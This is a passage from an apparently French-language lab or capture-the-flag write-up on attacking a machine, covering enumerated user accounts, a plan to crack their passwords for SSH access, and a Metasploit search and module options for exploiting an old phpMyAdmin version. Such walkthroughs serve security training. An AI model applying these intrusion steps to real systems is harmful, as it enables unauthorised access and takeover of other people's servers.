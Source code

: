 Outre les logins habituels (root, bin, daemon, apache, mysql...), cinq utilisateurs sont particulièrement intéressants : patrick, jennifer, andy, loren et amy. La prochaine étape logique sera de trouver le mot de passe de chacun d'entre eux, puis de se connecter avec leur compte en SSH. Mais avant cela, il y a d'autres pistes potentiellement intéressantes, remontées par nikto, à analyser.

### Présence de phpMyAdmin

phpMyAdmin est une application Web pour les systèmes de gestion de base de données MySQL. Cette interface pratique permet d'exécuter très facilement des requêtes comme les créations de table de données, insertions, mises à jour, suppressions et modifications de structure de la base de données, ainsi que l'attribution et la révocation de droits et l'import/export. Source : article [PhpMyAdmin](https://fr.wikipedia.org/wiki/PhpMyAdmin) de [Wikipédia en français](https://fr.wikipedia.org) [[auteurs](https://fr.wikipedia.org/w/index.php?title=PhpMyAdmin&action=history)]. D'après le changelog, la version de phpMyAdmin installée est 3.1.4.0 (2009-04-25).

~~OK Google~~ OK Metasploit ! Y a-t-il des exploits intéressants pour cette version de phpMyAdmin ?

```console
msf > search phpmyadmin

Matching Modules
================

   Name                                                  Disclosure Date  Rank       Description
   ----                                                  ---------------  ----       -----------
   auxiliary/admin/http/telpho10_credential_dump         2016-09-02       normal     Telpho10 Backup Credentials Dumper
   exploit/multi/http/phpmyadmin_3522_backdoor           2012-09-25       normal     phpMyAdmin 3.5.2.2 server_sync.php Backdoor
   exploit/multi/http/phpmyadmin_preg_replace            2013-04-25       excellent  phpMyAdmin Authenticated Remote Code Execution via preg_replace()
   exploit/multi/http/zpanel_information_disclosure_rce  2014-01-30       excellent  Zpanel Remote Unauthenticated RCE
   exploit/unix/webapp/phpmyadmin_config                 2009-03-24       excellent  PhpMyAdmin Config File Code Injection


   
msf > use exploit/unix/webapp/phpmyadmin_config
msf exploit(unix/webapp/phpmyadmin_config) > show options

Module options (exploit/unix/webapp/phpmyadmin_config):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                     yes       The target address
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   URI      /phpMyAdmin/     yes       Base phpMyAdmin directory path
   VHOST                     no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic (phpMyAdmin 2.11.x < 2.11.9.5 and 3.x < 3.1.3.1)
```

